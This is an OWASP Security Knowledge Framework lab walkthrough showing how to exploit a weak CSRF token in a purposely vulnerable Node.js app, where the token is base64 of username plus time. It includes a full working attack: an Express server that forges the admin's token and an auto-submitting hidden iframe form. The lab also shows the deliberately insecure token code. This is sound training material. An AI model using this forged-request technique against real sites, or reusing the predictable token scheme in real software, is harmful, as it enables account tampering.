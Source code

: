 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, let's first decoded the URL-encoded format then base64 decode:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```javascript
  const username = req.body.username;
  const password = req.body.password;
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  db.get(sql, [username, password], (err, row) => {
    if (row) {
      const date = new Date();
      const time = date.getHours() + ":" + date.getMinutes();
      let csrf_token = username + time;
      session = req.session;
      session.userId = row.UserId;
      session.loggedIn = true;
      session.csrf_token = Buffer.from(csrf_token).toString("base64");
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  const date = new Date();
  const time = date.getHours() + ":" + date.getMinutes();
  const csrf_token = "admin" + time;
  const encoded_csrf_token = Buffer.from(csrf_token).toString("base64");
  res.render("evil.ejs", { csrf_token: encoded_csrf_token });
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CSRF-weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
